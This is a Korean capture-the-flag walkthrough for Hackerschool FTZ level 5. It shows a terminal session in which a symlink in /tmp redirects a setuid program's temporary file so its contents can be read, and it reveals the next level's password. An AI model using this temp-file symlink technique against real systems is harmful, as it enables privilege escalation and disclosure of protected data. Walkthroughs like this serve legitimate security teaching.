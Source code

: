 # Hackerschool FTZ Level 05

```
login as: level5
level5@192.168.18.131's password:
[level5@ftz level5]$ ls
hint  public_html  tmp
[level5@ftz level5]$ cat hint

/usr/bin/level5 프로그램은 /tmp 디렉토리에
level5.tmp 라는 이름의 임시파일을 생성한다.

이를 이용하여 level6의 권한을 얻어라.


[level5@ftz level5]$ cd /tmp
[level5@ftz tmp]$ touch level5.to
[level5@ftz tmp]$ ln -s level5.to level5.tmp
[level5@ftz tmp]$ ls -al
total 24
drwxrwxrwt    2 root     root         4096 Apr 12 01:03 .
drwxr-xr-x   20 root     root         4096 Apr 11 21:48 ..
lrwxrwxrwx    1 level5   level5          9 Apr 12 01:03 level5.tmp -> level5.to
-rw-rw-r--    1 level5   level5          0 Apr 12 01:03 level5.to
srwxrwxrwx    1 mysql    mysql           0 Apr 11 21:49 mysql.sock
[level5@ftz tmp]$ /usr/bin/level5
[level5@ftz tmp]$ cat level5.to
next password : what the hell
[level5@ftz tmp]$
```

`/tmp` 디렉토리에 `level5.tmp` 파일을 임시로 사용한다고 한다.

`level5.tmp` 파일을 `level.to` 파일을 가리키도록 심볼릭 링크를 걸어둔다.

이제 `/usr/bin/level5` 프로그램을 실행하면 `level5.tmp` 파일에 내용을 쓰고 파일을 지울 것이다.

이 때 내용은 `level5.to` 에 써지고, 파일은 `level5.tmp` 링크 파일이 지워지게 된다.

그러므로 `level5.to` 파일을 읽으면 임시파일의 내용을 볼 수 있다.
